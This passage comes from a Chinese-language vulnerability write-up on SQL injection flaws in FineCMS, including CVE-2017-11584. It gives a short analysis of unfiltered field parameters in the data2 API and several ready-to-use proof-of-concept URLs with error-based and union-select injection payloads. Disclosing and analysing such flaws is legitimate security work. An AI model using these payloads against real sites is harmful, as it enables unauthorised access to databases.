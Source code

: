 ## PoC ##

打开网站并获取cookie中的SYS_KEY.

payload:
```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=related%2
0catid=1%20tag=1,2%20num=1/**/PROCEDURE/**/analyse(extractvalue(rand(),con
cat(0x3a,version())),1)

http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=tags%2
0catid=1%20tag=1,2%20num=1/**/PROCEDURE/**/analyse(extractvalue(rand(),con
cat(0x3a,version())),1)
```

# Template.php field变量 SQL注入漏洞(CVE-2017-11584) #

## 漏洞分析: ##

前面洞触发方式相同，通过安全码，从data2函数进入list_tag函数，设置`action=related`、`action=form`、`action=member`、`action=module`

这4部分有一个通用的`$system['field']`，这部分其实稍微有点儿奇怪，没做任何过滤就被直接拼接进入了SQL语句。

![image.png-59kB][13]

## PoC ##

每一个action进入语句的条件都不一定，这里贴上4个payload

```
http://finecms.com/index.php?c=api&m=data2&auth=820686a208b89d4c2f8b6f2622eff83e&param=action=related%20module=news%20tag=1%20field=1%0aunion%0aselect%0auser()%23
```
![image.png-40.6kB][14]

```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=form%20fo
rm=1%20field=1%0aunion%0aselect%0auser()%23
```
![image.png-42.4kB][15]

```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=member%20
field=1%0aunion%0aselect%0auser()%23
```
![image.png-30.6kB][16]


  [1]: http://static.zybuluo.com/LoRexxar/bypfg8rxkludnscn6k7i06bx/image.png
  [2]: http://static.zybuluo.com/LoRexxar/p6rzdl3hn4qma2xfdnnjcvmf/image.png
  [3]: http://static.zybuluo.com/LoRexxar/k3pahve44l13aaq0l3tv804k/image.png
  [4]: http://static.zybuluo.com/LoRexxar/tdhgnnhca43s7luif2z0qt19/image.png
  [5]: http://static.zybuluo.com/LoRexxar/cta71z8vhzrdv5h9xgvyjirl/image.png
  [6]: http://static.zybuluo.com/LoRexxar/oxxa39k1ctnodcfdibrzk8mb/image.png
  [7]: http://static.zybuluo.com/LoRexxar/g6c9j510dmf41jqluwewf7lc/image.png
  [8]: http://static.zybuluo.com/LoRexxar/9uh4ll2w53s9ftnhdfaf5jv4/image.png
  [9]: http://static.zybuluo.com/LoRexxar/dwwtyb3okbfl0ohedg3q1z4h/image.png
  [10]: http://static.zybuluo.com/LoRexxar/3pt5zq0ezl29las6zgjmh7r5/image.png
  [11]: http://static.zybuluo.com/LoRexxar/g3fahvxj1u1628qhm6dwrelp/image.png
  [12]: http://static.zybuluo.com/LoRexxar/n7dbtbupmw8ukwwenp4lipjj/image.png
  [13]: http://static.zybuluo.com/LoRexxar/i8d3nn39drj9to4x24yzed3q/image.png
  [14]: http://static.zybuluo.com/LoRexxar/g111thw2rkktq201cdcy0vgj/image.png
  [15]: http://static.zybuluo.com/LoRexxar/uayzgncag8bh36fg9d8ii3fq/image.png
  [16]: http://static.zybuluo.com/LoRexxar/1k1qcb858g9jvsozo40sy35t/image.png
  [17]: http://static.zybuluo.com/LoRexxar/yfo0vsmibo19y94ld7kf6t00/image.png
  [18]: http://static.zybuluo.com/LoRexxar/y5pf6ackfl3e6hgodigz9icb/image.png
  [19]: http://static.zybuluo.com/LoRexxar/dyjq3635yf7ascfdxqmklyql/image.png